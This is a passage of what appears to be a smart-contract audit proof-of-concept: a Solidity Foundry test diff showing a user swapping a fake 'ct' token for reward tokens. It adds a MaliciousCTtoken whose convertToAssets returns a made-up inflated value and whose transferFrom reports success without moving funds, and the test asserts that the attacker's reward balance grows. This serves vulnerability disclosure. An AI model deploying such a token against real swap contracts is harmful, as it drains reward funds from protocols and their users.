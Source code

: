 ```diff
+        uint256 assetAmountFromCtAssetAmount = maliciousctToken.convertToAssets(ctAssetAmountToBeSwapped); // @audit-info : returns a made up number
+        console.log("assetAmountFromCtAssetAmount =", assetAmountFromCtAssetAmount);
+        uint256 totalRewardTokenAmount = _getExpectedRewardTokenAmount(
+            assetAmountFromCtAssetAmount,
+            assetPrice,
+            rewardPrice
+        );
+
+        vm.startPrank(hazel);
+        vm.expectEmit(false, true, true, true, address(swapper));
+        emit SwapperEvents.Swapped(
+            hazel,
+            address(maliciousctToken),
+            address(rewardToken),
+            ctAssetAmountToBeSwapped,
+            totalRewardTokenAmount
+        );
+        uint256 beforeAttack = rewardToken.balanceOf(hazel);
+        console.log("Hazel's reward token balance before attack=", beforeAttack);
+        // create the swap
+        swapper.swapTokensForReward(address(maliciousctToken), address(rewardToken), ctAssetAmountToBeSwapped);
+
+        vm.stopPrank();
+        console.log("Hazel's reward token balance after attack =", rewardToken.balanceOf(hazel));
+        assertGt(rewardToken.balanceOf(hazel), beforeAttack, "Attack failed");
     }
 }
 
+contract MaliciousCTtoken is ERC20 {
+    address public _asset;
+    
+    constructor(address asset_) ERC20("Malicious ct Token", "MTKN") {
+        _asset = asset_;
+        _mint(msg.sender, 1000000 * 10**18); // Mint some tokens to attacker
+    }
+    
+    // Fake convertToAssets function that returns inflated value
+    function convertToAssets(uint256) public pure returns (uint256) {
+        // Return massively inflated value
+        // return shares * 1000000;
+        return 900 ether;
+    }
+
+    function asset() public view returns (address) {
+        return _asset;
+    }
+
+    // Override transfer to always return true but not actually transfer
+    function transferFrom(address, address, uint256) public pure override returns (bool) {
+        // Do nothing but return success
+        return true;
+    }
+}
 // mint some reward tokens to the treasury
 // reward.mint(treasury, 1_000_000 * 10**ASSET_DECIMALS);
```
